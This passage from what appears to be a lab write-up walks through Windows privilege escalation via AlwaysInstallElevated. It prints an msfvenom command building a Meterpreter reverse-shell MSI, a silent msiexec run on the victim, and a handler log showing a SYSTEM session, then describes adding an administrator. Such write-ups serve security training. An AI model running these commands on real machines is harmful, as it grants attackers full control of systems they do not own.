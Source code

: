 And we see, in fact, that it is.  We checked HKLM and HKCU.

So, we can use pretty close to the same trick as before.

```
(kali㉿kali)-$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.6.x.x -f msi -o setup.msi                             
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

Using this msfvenom and the same setup we did before with the handler, we create an msi file.  This is significant because these are the types of files that are set to always run as admin.

Create that and copy it over using the same http server we already set up.  You can set up a new one if you are doing this with no prior engagements.

On the victim machine, you run the file with the following command (I didn't, I just opened a cmd window and ran it without options but I did get a couple errors back but it still worked).

Put the file in the C:\Temp folder and run the following:

`msiexec /quiet /qn /i C:\Temp\setup.msi`

My guess is the /quiet and other options keep the errors that I saw from popping up.  Still, the result was the same.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.6.x.x:4444 
[*] Sending stage (176198 bytes) to 10.10.85.199
[*] Meterpreter session 3 opened (10.6.x.x:4444 -> 10.10.85.199:49355) at 2024-10-22 00:59:38 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

There is also, after we did the `Invoke-AllChecks` command from the PowerUp tools, we got to see the following.

![[Pasted image 20241022011017.png]]

With this, we can run the following.

![[Pasted image 20241022011132.png]]

Then we go to that folder and see the new UserAdd program.

![[Pasted image 20241022011237.png]]

We can then run that program and because it's always running msi files as Admin, we can create ourselves a new administrator.
